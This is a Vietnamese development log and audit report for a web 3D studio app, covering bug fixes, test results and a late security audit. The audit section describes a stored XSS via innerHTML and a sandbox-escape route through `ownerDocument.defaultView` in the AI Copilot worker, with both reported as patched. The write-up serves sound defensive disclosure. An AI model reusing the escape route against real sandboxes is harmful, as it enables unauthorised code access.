| A11 | Ctrl+Z trong modal | Vừa undo vừa khóa trục Z | modal nhận X/Y/Z bất kể modifier | bỏ qua phím có Ctrl/Meta/Alt trong `modal-transform.js`; test `axisLock` |
| A12 | Edit Mode | `Shift+A` vừa Select All vừa mở Add menu | handler `A` không loại Shift | `A` chỉ Select All khi không modifier |
| A13 | Group | `Ctrl+G` tạo group chỉ với 1 object | không giới hạn số object | yêu cầu **≥2** ở sceneManager + menu + shortcut |
| A14 | Chọn object | Cmd/Ctrl+click không chọn nhiều object | chỉ kiểm tra `shiftKey` | nhận `Shift` **hoặc** `Meta`/`Ctrl`; test click thật qua raycast |
| A15 | Camera view | Numpad0 không hoạt động trên bàn phím không có numpad | chỉ nhận `event.code === 'Numpad0'` | thêm phím `0` hàng số, nhãn “0 / Numpad 0”; test toggle vào/ra |
| A16 | Edit Mode + Undo | `Ctrl+Z` xoá mất object nhưng khung đỉnh/cạnh vẫn còn; sửa hình học xong khung không cập nhật | Edit Mode không nhận undo; SceneManager undo chạy thẳng từ engine | Edit Mode tự nhận Ctrl+Z/Y; lắng nghe `historyChanged` → rebuild topology + overlay; `objectRemoved` → `exit()` sạch; test interaction-suite (2 test) |
| A17 | Camera | Các mảnh Body/Lens/Aim bị coi như object thường, dễ lọt Outliner/export; frustum không cập nhật khi camera đổi | mảnh camera thiếu cờ helper; helper chỉ update lúc chọn | đánh dấu `isCameraPart/isHelper/selectable=false`, Outliner lọc thêm `isHelper/isCameraPart/isCamera`; frustum update khi selection/history đổi |
| A18 | Đèn | Không có biểu diễn trực quan trong viewport | đèn chỉ là THREE.Light | `js/core/light-helper.js`: gizmo Point/Sun/Spot/Ambient, chỉ hiện khi chọn, không selectable, không vào Outliner/GLB/project JSON; test `tests/test_light_helper.mjs` (6) + interaction-suite |
| A19 | Physics | Cần trọng lực/va chạm để làm studio nhỏ | chưa có simulation | Rapier WASM + `SimulationManager` fixed-step deterministic + dock Physics + bake timeline; test `tests/test_simulation_manager.mjs` (8), interaction-suite |
| A20 | Phím tắt / Numpad | `Cmd+Z` đổi shading, `Cmd+N/T/H/X/F` bị app chiếm, Numpad 1/3 trong Edit Mode đổi chế độ chọn, Numpad 4/6/8/2 và +/- chưa có | handler thiếu kiểm tra `metaKey`/`event.code` | phân biệt Digit vs Numpad, chặn tổ hợp hệ thống, thêm orbit/zoom; test interaction-suite **25/25** |
| A21 | Edit Mode / Sculpt | Đỉnh mặt sau xuyên qua mesh gây rối mắt; thanh Sculpt bị chồng chữ, nút không bấm được | vertex overlay `depthTest:false`; brush dùng class icon rộng 22px, header không wrap | bật depth test + tắt depth write; CSS riêng cho `.sculpt-brush-btn`, header wrap và ẩn nav object-mode khi sculpt; test interaction-suite **25/25** |
| A22 | Viewport camera | Chỉ có Perspective; Numpad `.` không canh vùng chọn Edit Mode; NumLock tắt biến Numpad `.` thành Delete | engine chỉ dựng PerspectiveCamera; focus dùng Box3 toàn object; nhánh Delete nhận cả NumpadDecimal | `engine.toggleProjection()` giữ hướng nhìn/tâm xoay/tỷ lệ tại mặt phẳng tâm, rebuild ViewHelper, đồng bộ OrbitControls/TransformControls/`window.camera`; NumpadDecimal route theo `event.code` trước nhánh Delete; `focusSelection()` dùng đỉnh chọn trong Edit Mode qua matrixWorld; Orthographic hỗ trợ zoom/resize/raycast/PNG/project JSON (legacy mở Perspective)/mocap+UV framing/WebM; test interaction-suite **40/40**, browser-suite **23/23** |

### 12.2 Ma trận trả lời câu hỏi kiểm thử

Bổ sung 05/11/2026 — 5.2 Fixed/Revolute joints: neo và trục riêng cho mỗi body, giữ góc xoay ban đầu; tắt va chạm nội bộ cặp khớp nhưng giữ ground/cảnh. Tạo/xoá có undo/redo; xoá group dọn body con, undo/import nối lại; duplicate đổi UUID trong cặp sao chép. Spec lỗi bị bỏ qua khi dựng world. Step/Pause/Play/Reset giữ pose đầu; relink không dựng lại joint không liên quan. Physics panel hiển thị tên bằng `textContent`, joint xem/xoá được từ cả hai phía.

Kiểm chứng: `test_simulation_manager.mjs` **37/37**, `test_scene_history.mjs` **14/14**, interaction-suite **28/28**; đã bấm Create Joint → 1s → Reset trong trình duyệt. Chưa hỗ trợ motor, giới hạn góc, chỉnh điểm neo hoặc soft body.

| Chức năng | Trả về đủ dữ liệu? | Xen lẫn chức năng khác? | Bằng chứng |
|---|---|---|---|
| Undo/Redo (thêm/xoá/transform/rename/visibility/group/duplicate) | ✅ đúng trạng thái trước & sau | Không còn; mỗi hành động 1 bước | `test_scene_history.mjs` 9/9 |
| Outliner / Inspector | ✅ rename, visibility, transform | Không chiếm phím khi focus input | interaction-suite |
| Timeline playhead / keyframe / clip | ✅ restore keyframe + clip; Play phát clip | Space không lọt khi dialog/picker/ô nhập | `test_timeline_clip_playback.mjs` 9/9, interaction-suite |
| Project JSON v3 | ✅ hierarchy, group, light, camera, material, vertex, skin, texture, clip, timeline, viewport projection | Không lẫn đèn studio hệ thống; legacy mở Perspective | browser-suite 23/23 (5.35 MB Michelle) |
| GLB export | ✅ mesh + skin + animation | Không xuất helper/MatCap | `test_glb_animation.mjs` 8/8, Godot, mocap-suite |
| Share/Embed | ✅ link, preview, flags, postMessage | Không gửi payload lên server với `#z=` | embed-suite 6/6, test_embed_core 18/18 |
| Cloud auth/save/billing | ✅ credit server-authoritative, project round-trip, ownership | Không lộ secret trong browser | test_cloud 38/38, cloud-suite 10/10 |
| Mocap client-side | ✅ 15 test, clip GLB, WebM thật ở cả hai phép chiếu | WASM chỉ chạy khi mở công cụ | mocap-suite 15/15 |

### 12.3 Hạn chế còn lại (đã biết, chưa sửa)

- Edit Mode/Sculpt thay đổi `BufferGeometry` **không** nằm trong undo stack của SceneManager (undo riêng của Edit Mode); Project JSON đã lưu đúng vertex nhưng undo sau khi thoát Edit Mode không khôi phục mesh.
- Keyframe timeline có lịch sử riêng, Ctrl+Z của scene không hoàn tác thao tác keyframe.
- `F12` trần vẫn thuộc DevTools — chỉ Shift+F12 là shortcut của ứng dụng.
- Link `#z=` tự chứa vẫn giới hạn 96 KB sau nén; mô hình lớn dùng Cloud/`.glb`.

**Test lần cuối (07/11/2026):** `bash tests/run_all.sh` **20/20 nhóm PASS**; browser-suite **23/23**, interaction-suite **40/40**,
embed-suite **6/6**, mocap-suite **15/15**, cloud-suite **10/10**.

### 12.4 Path Tracing PNG giới hạn (07/11/2026)

- Menu **Render → Path Tracing (chất lượng cao)…** dùng snapshot PBR + WebGL context riêng, không sửa cảnh/renderer/camera/MatCap gốc. Bundle tải khi render; không vá `Scene.prototype` để chạy wrapper lệch phiên bản.
- Sửa lỗi PNG chưa hiển thị ở mẫu < 5 bằng cách xuất render target trực tiếp; loại clone `userData` vòng, bỏ helper/camera/mesh ẩn, giữ world matrix và texture độc lập. Thư viện gộp sai material groups/drawRange và stride màu RGB/RGBA: snapshot chuẩn bị scalar-material parts + RGBA trước BVH. Dùng canvas straight-alpha để tránh làm sáng RGB bán trong suốt; UV1–UV3 báo lỗi thay vì shader lấy nhầm UV0. Huỷ/đóng/lỗi đều giải phóng context riêng; tăng lớp dialog để không bị STEM HUD che.
- **20/20 nhóm `run_all.sh`**, gồm **119/119 Node snapshot/BVH tests**; **16/16 browser GPU/UI tests**: đúng bốn vùng màu sau AgX, alpha bán trong suốt giữ RGB, Orthographic, UV1 báo lỗi và render lại được, viewport không đổi, huỷ/render trùng, input/cảnh trống, render/download/close, dialog không bị STEM che; thêm PNG giữ pose đã chụp dù rig chuyển động và Michelle GLB còn phát clip sau render. Đã render/tải PNG Michelle 597×317 ở 32 samples qua dialog thật bằng Chrome headless, xem ảnh và kiểm tra timeline từ frame 180 → 200,34 với xương chuyển động; geometry/camera không đổi, console sạch. Tab tích hợp bị ẩn được huỷ và cảnh thử được dọn/khôi phục.
- Regression cuối: interaction **40/40**, browser **23/23**, mocap **15/15**, embed **6/6**, cloud **10/10**; chạy tuần tự bằng Chrome headless + CDP.
- Media regression: một lượt mocap-suite trước đó **14/15** vì Director WebM không đạt kiểm tra dữ liệu; lượt độc lập sau đó **15/15**. Lượt chain sau đó timeout 240 s chưa có global kết quả; nguyên nhân vẫn chưa xác định. Hai lượt độc lập tiếp theo đều **15/15** trong khoảng 41–42 s; không hạ ngưỡng dữ liệu hoặc thêm retry. Chẩn đoán phát hiện ba cleanup fixture dùng `removeFromParent()` bỏ qua SceneManager, gây 14 lỗi TransformControls; đã đổi sang `removeObject(character, false)`, lượt cuối không có console error/exception. Không sửa engine/Mocap production để che timeout.
- SkinnedMesh đã hỗ trợ snapshot tư thế hiện tại: morph trước skin, normal/tangent theo phép biến đổi của shader r160, giữ bind matrices/rig/clip nguồn. Attached bind inverse được tính từ world matrix mới trên bản sao; detached skeleton ngoài root được cập nhật world transform, không reset pose. Geometry deformed dùng Float32 riêng theo từng mesh, không cache chung các pose. Kiểm tra giới hạn tam giác trước bake CPU; thiếu rig/skin bị bỏ qua có thông báo. Đối chiếu thêm 81.700 đỉnh trên Michelle ở 5 thời điểm clip với `getVertexPosition` của r160: sai số world-position tối đa < 8e-8, geometry nguồn giữ nguyên.
- Giảm nhiễu tuỳ chọn dùng `DenoiseMaterial` giữ biên, mặc định tắt; adapter không sửa vendor, unpremultiply RGB trước tone mapping và giữ coverage alpha từ ảnh chưa lọc. Đã bật/tắt bằng chuột qua dialog thật, render/tải hai PNG Michelle 597×317 ở 32 samples, xem ảnh và phát tiếp animation; camera/geometry giữ nguyên, console không có lỗi. Alpha hai PNG trùng hoàn toàn. Bộ lọc không phải AI, làm mềm chi tiết nhỏ và không thay thế tăng Samples.
- **Kiểm chứng denoise 08/11/2026:** GPU/UI **16/16** trong 51,605 s, console error/exception **0**; browser **23/23**, automated **20/20** nhóm. Bốn test mới kiểm tra Float/HalfFloat, variance/màu/biên/alpha/tone mapping, PNG bật/tắt/mặc định, input sai/huỷ/lỗi/render trùng và checkbox/download/focus; xác nhận 3 context riêng được giải phóng. Test màu đối chiếu ảnh sạch qua cùng tone mapping, không so trung bình ảnh nhiễu sau sRGB vì phép chuyển màu phi tuyến; giữ ngưỡng RGB < 3 byte và variance sau lọc < 0,65 lần trước lọc. Tỷ lệ variance đo được 0,01–0,02 chỉ thuộc fixture tổng hợp, không phải cam kết cho ảnh thực tế. Bằng chứng: `/tmp/wbs-denoise-gpu-results.json`, `/tmp/wbs-denoise-gpu-suite.png`, `/tmp/wbs-denoise-browser-results.json`.
- Chẩn đoán harness GPU: lượt đầu timeout CDP `Runtime.evaluate` ở 20 s, chưa chứng minh lỗi sản phẩm; sau tăng timeout lệnh lên 120 s và ghi tiến độ từng test, suite đạt 15/16, lộ phép đối chiếu màu sai nêu trên. Sau sửa riêng test tham chiếu, 16/16 đạt; không sửa production hay hạ ngưỡng kiểm tra. Các kết quả regression ở mục này đến từ nhiều lượt chạy, không phải một chain duy nhất.
- **Không coi là render production hoàn chỉnh:** PMREM/HDR không tương thích bị bỏ; instance color chưa bake; texture atlas 512 px, chỉ UV0 (UV1–UV3 báo lỗi). Giới hạn 200.000 tam giác / 2 MP / cạnh 2048 px / 256 samples / 3 phút. BVH và bake pose đồng bộ, huỷ chỉ có hiệu lực sau bước này. Đây là ảnh tĩnh, không render video path tracing. Tauri chưa làm.

### 12.5 Revolute motor + giới hạn góc (08/11/2026)

- Bổ sung cấu hình motor/giới hạn cho khớp Revolute trong `js/simulation/simulation-manager.js` (`DEFAULT_REVOLUTE`, `PHYSICS_MOTOR_MODES`, `getJointConfig/setJointConfig/getJointAngle`) và 9 trường điều khiển + ô góc trực tiếp trong `js/ui/physics-panel.js`. Mặc định tắt nên joint cũ (spec không có trường motor) giữ behaviour tự do; spec lỗi/nonfinite bị bỏ qua khi dựng world mà không sửa nguồn.
- Dùng API thật của Rapier 0.21: `setLimits` (giới hạn góc), `configureMotor` + `configureMotorModel(ForceBased)` + `setMotorMaxForce` (motor). Bốn chế độ Tắt/Tốc độ/Vị trí/Servo; target vị trí kẹp vào khoảng giới hạn; `maxTorque=0` không truyền động. Góc đọc tương đối so với lúc nối khớp và giữ nguyên khi body dựng lại (tham chiếu lưu theo spec trong WeakMap, không vào JSON).
- Ba lỗi production tìm thấy bằng test Rapier thật và đã sửa: (1) validate từng âm thầm chuẩn hoá trường sai thay vì bỏ qua spec; (2) undo lần chỉnh đầu không khôi phục đúng spec legacy (thừa/thiếu trường); (3) tham chiếu góc bị bắt lại mỗi lần nối lại joint khiến giới hạn sai khi bắt đầu ngoài khoảng. Sửa bằng cách lưu tham chiếu theo spec và phân biệt undo legacy (xoá trường) với undo đã cấu hình (ghi đủ chuẩn hoá). Không sửa vendor, không hạ ngưỡng test.
- Một lỗi UI tìm thấy bằng browser test: handler đọc `Number(value)` trên `<select>` chế độ motor biến `'velocity'` thành NaN và từ chối; và đồng bộ node cũ sau khi history dựng lại panel. Sửa: đọc select như chuỗi và refresh từ trạng thái hiện thay vì node đã detach.
- **Kiểm chứng 08/11/2026:** `test_simulation_manager.mjs` **51/51**; `bash tests/run_all.sh` **20/20 nhóm** (gồm 119/119 pathtrace Node); `tests/interaction-suite.html` **42/42** (0 console error/exception, gồm 2 test motor UI thật: chuyển chế độ/giới hạn, step, undo/redo, input lỗi, góc trực tiếp, exporter/duplicate/bake, DOM an toàn, dispose panel); `tests/pathtrace-suite.html` **16/16** (0 error); `tests/browser-suite.html` **23/23**. Đã xem dock Physics ở khổ rộng 1094 px: không tràn ngang, motor drives khớp tới 40,0° đúng đích; ảnh `/tmp/wbs-motor-dock-wide.png`.
- **Quan sát browser-suite:** lượt này 23/23 pass nhưng có 2 console error `window.editMode.setSelectionMode is not a function` phát sinh từ mã do Cloud AI sinh trong bài STEM (phương thức không tồn tại trong `edit-mode.js`, chỉ có `setMode`); không nằm trong đường dẫn motor/vật lý và không phải regression của thay đổi này (các lượt trước AI sinh mã khác nên 0 error). Test vẫn pass vì askAICoach chịu lỗi thực thi và grader dùng bài khác. Ghi nhận là hạn chế cố hữu của đường sinh mã AI, chưa sửa ngoài phạm vi.
- **Hạn chế:** chưa soft body/cloth/weather; chưa chỉnh neo sau tạo; motor chỉ cho Revolute. Bằng chứng: `/tmp/wbs-motor-tests.log`, `/tmp/wbs-motor-automated.log`, `/tmp/wbs-motor-interaction-results.json`, `/tmp/wbs-motor-browser-results.json`, `/tmp/wbs-motor-pathtrace-results.json`.

### 12.6 WebCodecs VideoDecoder, Geometry Web Worker & Additive Vite Build (09/11/2026)

- **WebCodecs Sequential VideoDecoder (`js/animation/video-decoder.js` + `browser-mocap.js`):**
  - Giải quyết nút thắt tốc độ mocap client-side: thay vì `seek` từng frame (chỉ đạt ~32 fps decode, 4.3 fps toàn trình), demux container trực tiếp trong trình duyệt bằng demuxer WebM gọn nhẹ (VP8/VP9/AV1) và MP4Box vendored (`vendor/mp4box/` cho MP4/H.264), sau đó nạp tuần tự vào `VideoDecoder` với iterator `openVideoFrameStream`.
  - Reorder presentation order cho H.264 B-frames theo CTS/PTS chuẩn.
  - Tự động fallback về seek nếu demux lỗi (file rác), trình duyệt không hỗ trợ WebCodecs, hoặc stream đứt quãng.
  - Sửa lỗi factory stub landmarker trong test suite: chuẩn hoá việc mở gói (unwrap) `landmarkerFactory` trong `BrowserMocapEngine.init`, hỗ trợ cả factory trả về instance lẫn factory trả về async function; bổ sung warning log khi sampler ném lỗi thay vì nuốt ngoại lệ im lặng.
  - **Đo thực tế:** Tốc độ decode-only đạt **161.8 – 230.9 fps** (371 ms / 60 frames) so với **32.1 fps** (1871 ms) của đường seek $\rightarrow$ **nhanh hơn 5.0× – 7.2×**.
  - **Test:** `tests/webcodecs-suite.html` **10/10 PASS** (sniff/demux WebM, demux MP4 H.264 B-frame, VideoDecoder tuần tự, parity WebCodecs vs seek 20 frames khớp 1e-5, pixel MAD < 7, fallback khi ẩn WebCodecs, fallback byte rác, AbortController dừng sạch, đo fps).

- **Geometry Web Worker (`js/core/geometry-worker.js` + `geometry-worker-client.js`):**
  - Đẩy việc dựng BVH (`three-mesh-bvh`) và tính toán CSG Boolean (`three-bvh-csg`) cho mesh nặng (>20.000 tam giác) sang Web Worker độc lập, giải phóng hoàn toàn luồng giao diện chính (main thread).
  - Tích hợp liền mạch qua `ensureBVHAsync()` (`js/core/bvh-accelerator.js`) và `performBooleanAsync()` (`js/core/modifiers.js`), tự động fallback sang CPU tính toán đồng bộ khi mesh nhỏ hoặc khi Worker bị huỷ.
  - **Test:** `tests/geometry-worker-suite.html` **5/5 PASS** (khả dụng worker, dựng BVH khớp CPU 96.360 tris, non-blocking main thread guard, CSG 27.648 đỉnh khớp CPU 100%, fallback an toàn).

- **Additive Vite Bundler (`vite.config.js` + `package.json`):**
  - Cung cấp lệnh đóng gói sản phẩm thương mại `npm run build` / `npm run preview` xuất ra `dist/` với code-splitting, tree-shaking và tối ưu hóa tài nguyên.
  - **Giữ nguyên 100% dev flow:** `python server.py` (:8080) và các import map trong `index.html` / `embed.html` tiếp tục hoạt động độc lập mà không bị sửa đổi mã nguồn.
  - Tự động bóc tách import map trong bộ nhớ khi build, gom cụm dynamic loader cho các định dạng 3D (`GLTFExporter`, `FBXLoader`, `OBJLoader`, `STLLoader`, `PLYLoader`), sao chép tài sản runtime (`models/`, `vendor/`) sang `dist/`.
  - Sửa test hồi quy `tests/run_all.sh` nhóm 3/20 để dùng `--import ./tests/three-resolve-hooks.mjs` cho Node ESM.
  - **Kiểm chứng:** `npm run build` hoàn thành trong ~6.3s; `bash tests/run_all.sh` **20/20 nhóm PASS**.

- **Regression nền móng chốt lượt cuối (09/11/2026, Chrome headless + CDP):** pathtrace **16/16**, interaction **42/42**, webcodecs **10/10**, mocap **15/15**, browser **23/23**, geometry-worker **5/5**; Node simulation **51/51**, BVH/CSG **9/9**, pathtrace scene **120/120**; `run_all.sh` **20/20**. Browser-suite còn 2 console error từ mã Cloud-AI sinh gọi `editMode.setSelectionMode` (không tồn tại) trong bài STEM — không thuộc đường dẫn nền móng, không phải regression.
- **Lỗi production thật tìm thấy khi verify headless:** sampler seek của `browser-mocap.js` early-return khi `currentTime` đã đúng đích nhưng `video.readyState<2` (frame đầu chưa decode, gặp ở headless/video mới load) khiến `drawImage` ném `InvalidStateError` → pose=null → `detected=0`. Sửa: chỉ bỏ qua seek khi đã đúng đích **và** `readyState>=2`, kèm guard chờ `loadeddata` trước khi copy canvas. Fix này cũng loại flake Director WebM (mocap-suite trở lại 15/15). Worker cũng từng rơi message đầu do bootstrap top-level-await và CSG sai do `updateMatrixWorld()` ghi đè matrix đã gán — cả hai đã sửa (đăng ký `onmessage` đồng bộ, chờ `ready` bên trong; không gọi `updateMatrixWorld` sau khi gán matrix).
- **Hạn chế còn lại của nền móng:** worker nạp vendor bằng viết lại bare-import trong bộ nhớ (chưa phải build-time alias sạch); `dist/` copy nguyên `models/`+`vendor/` (~139MB, chưa lazy-load/manifest); chưa dọn `window.*`; Path Tracing chưa worker-BVH/PMREM/nới budget; Tauri chưa làm.

---

## 13. Audit bổ sung 25/11/2026 — snapshot P0 sau vá 26/11/2026

Phần này là **snapshot lịch sử 26/11/2026**, không phải trạng thái HEAD. Trạng thái hiện hành beta.2 nằm ở khối đầu tài liệu. “Đã vá” có nghĩa mã nguồn và test hồi quy tương ứng đạt tại thời điểm đó; không thay thế kiểm chứng Supabase/webhook/deployment production.

| Hạng mục | Phát hiện gốc 25/11 | Trạng thái 26/11 | Bằng chứng và việc còn lại |
|---|---|---|---|
| **P0 — Inspector stored XSS** | `renderCurveSection()` nội suy `curveData` vào `innerHTML`; Chromium thực tế đã kích hoạt `onerror` từ metadata số | **Đã vá và kiểm Chromium:** card Curve/Text dựng bằng DOM API; text/number/checkbox gán qua `textContent`, `value`, `checked`; không còn nội suy payload vào HTML | `tests/test_wave2_fixes.mjs` **10/10**; browser suite có payload quote/autofocus/onfocus/img/onerror và xác nhận không tạo element/handler; full gate **68/68** |
| **P0 — Copilot/`agent.exec` vượt sandbox** | PoC đọc sentinel qua `document.createElement(...).ownerDocument.defaultView`; Worker xác nhận IndexedDB/CacheStorage/BroadcastChannel/navigator.storage còn truy cập được | **Đã vá trong source và kiểm Chromium:** Copilot/STEM demo chạy trong dedicated module Worker với scene mirror, CSP/capability denial, timeout/cancellation, asset staging, live-command allowlist và transaction/conflict check ở parent; không nhận object runtime thật. `agent.exec` chạy trong Worker riêng với CSP/global bị chặn | guard **26/26**, Copilot Worker **17/17**, `agent.exec` isolation **7/7**, browser **43/43**, production `dist/` **9/9**, full gate **68/68**. Không tuyên bố chống mọi exploit; cần audit dependency và kiểm lại khi thay đổi kiến trúc |
| **P0 hồi quy — Worker CSP / Live Voice echo / serialize null** | Server dev đang chạy bản cũ không trả CSP cho Worker; câu kết TTS “xem lại” bị STT nhận thành “quay lại” và chạy `prev_step`; scene có helper `material = null` làm `toJSON()` ném lỗi | **Đã vá:** giữ sandbox, `E_PERMISSION` được đánh dấu không auto-repair; echo guard chặn nhóm lệnh điều hướng từ loa nhưng vẫn cho “khoan đã”/“tiếp tục” thật; serializer tạm bỏ material null khỏi payload rồi khôi phục object; thêm test response CSP cho agent/copilot Worker | `tests/test_server_concurrency.py` **8/8**, `tests/test_copilot_worker.mjs` **17/17**, `tests/test_stem_voice_session.mjs` **20/20**, `tests/test_voice_wake_and_walkthrough.mjs` **11/11**, browser **43/43**. Server 8080 đã khởi động lại; Chromium thật chạy thành công tạo cube → `scene.clear()` |
| **P0 — Supabase private asset trong public bucket** | `add_asset(public=False)` vẫn upload `asset_bucket`; schema ép `shared-models.public=true` | **Đã áp LIVE lên Supabase `fpkhjitqzieqofcviyqi` (26/11):** bucket `shared-models` & `studio-projects` đều `public=false`, `storage.objects` bật RLS với 0 policy client, thu hồi quyền bảng & toàn bộ 8 RPC khỏi `public, anon, authenticated` (vá thêm 12 cảnh báo `SECURITY DEFINER` live từ `supabase db advisors`), chỉ `service_role` gọi được | `supabase db advisors` trả **`No issues found` (0 cảnh báo)**; kiểm HTTP thật trên `fpkhjitqzieqofcviyqi.supabase.co`: `anon` nhận **401** trên RPC/table và **400** trên public bucket, `service_role` nhận **200**; `tests/test_cloud.py` **49/49** |
| **P0 — Refund trước paid bị mất** | `refund_payment()` với pending trả `200/applied=false`; `mark_payment_paid()` sau đó cộng credit, balance 200→400 | **Đã áp LIVE lên Supabase & vá cục bộ:** refund lưu trạng thái `refunded`; local dùng transaction `BEGIN IMMEDIATE`; Supabase khoá payment row, lưu refund và `cloud_mark_payment_paid()` trả `already_refunded` trước khi cộng credit. Clawback chỉ áp dụng cho paid | `cloud_refund_payment` & `cloud_mark_payment_paid` đã triển khai live trên `fpkhjitqzieqofcviyqi`; `tests/test_cloud.py` **49/49**. **Còn edge case:** webhook chỉ có `provider + external_id` khi payment row chưa gắn external ID; chưa kiểm webhook thật |
| **P1** | Quota Supabase không nguyên tử | **Đã vá & áp LIVE (26/11):** thêm RPC nguyên tử `public.cloud_reserve_asset(...)` khoá `pg_advisory_xact_lock(hashtext(p_user_id::text))`, kiểm `max_assets`/`max_total_bytes`/credit và ghi `cloud_assets` trong 1 transaction; `cloud/supabase.py` rollback hàng & hoàn credit nếu Storage upload lỗi | Đã áp live trên `fpkhjitqzieqofcviyqi` (`8/8` RPC, `0` advisor); `tests/test_cloud.py` kiểm rollback khi Storage upload lỗi |
| **P2** | Hunyuan path không containment | **Đã vá (26/11):** thêm `_resolve_contained_image_path()` (`Path.resolve()` + `.relative_to()` trong `INPUTS_DIR`/`MODELS_DIR`/`ASSETS_DIR`), chặn traversal `..`, đường dẫn ngoài workspace, symlink trỏ ra ngoài và đuôi không hợp lệ; áp dụng cho `start_generation()`, `reason_and_synthesize_multiview()`, `_run_generation_task()` và `mvFront/Back/Left/Right` | `tests/test_hunyuan_upload.py` kiểm traversal, outside path, symlink escape và bad ext; `server.py` trả 400/403/404 đúng mã |
| **P2** | Mocap upload public không TTL | **Đã vá (26/11):** thêm `_cleanup_old_mocap_uploads()` theo TTL (`STUDIO_MOCAP_UPLOAD_TTL_SEC`, mặc định 3600 s) khi nhận upload mới; `vite.config.js` hỗ trợ `excludePrefixes` và `asset-ship-policy.json` loại `uploaded_mocap_*` + `uploaded_mocap.png` khỏi `dist/` | `tests/test_security.py` kiểm xóa file hết hạn và giữ file mới/file mẫu; `dist/models/` xác nhận không còn `uploaded_mocap*` |
| **P2** | Gate `chaos-ui` readiness race | **Đã vá nguyên nhân test boot:** suite trước chỉ chờ `app/sceneManager/studio` nên chạy trước khi 16 subsystem async lên; nay chờ đủ `outliner/inspector/uvEditor/shaderEditor/paintMode/rigSystem/poseShelf/physicsPanel/simulationManager/editMode/sculptMode/exporter/engine`. Chạy riêng **7/7** | Giữ điều kiện chờ theo global thật; theo dõi nhiều lượt full gate để phát hiện race module boot khác |

**Trạng thái vá:** giữ bằng chứng lịch sử của cả phát hiện gốc và kết quả sau vá. Sau mỗi lần sửa tiếp theo phải cập nhật bảng này; không được ghi P0 đã đóng chỉ từ static scan, cũng không được suy ra deployment production an toàn từ full gate cục bộ.

